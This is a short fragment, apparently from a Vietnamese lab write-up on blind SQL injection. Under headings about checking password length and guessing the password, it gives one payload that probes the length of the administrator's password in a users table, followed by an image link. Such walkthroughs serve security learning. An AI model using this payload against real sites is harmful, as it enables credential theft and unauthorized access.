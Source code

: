 #### Kiểm tra số lượng kí tự của password

`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a`

#### Dò password

- Setup
  ![Alt text](bin/image-8.png)